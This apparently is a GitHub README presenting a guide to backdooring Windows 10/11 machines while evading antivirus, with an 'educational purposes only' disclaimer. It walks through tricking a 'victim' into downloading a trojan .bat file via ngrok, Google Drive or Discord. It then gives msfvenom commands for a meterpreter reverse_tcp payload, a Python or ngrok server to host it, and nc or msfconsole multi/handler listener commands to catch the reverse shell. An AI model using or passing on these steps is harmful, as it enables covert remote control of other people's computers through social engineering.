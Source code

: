 # Windows 11/10 Bypass AV & Insert Backdoor

#### **For educational purposes only!**
#### **Social Engineering is required!**
#### **Requires victim to have Admin Privs**

## Steps to Compromise:

1. **Setup Trojan Horse.** 
2. **Get creative and get victim to download .bat file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
3. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]
4. **Setup server** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>

# Demonstration Video
Insert video in markdown!
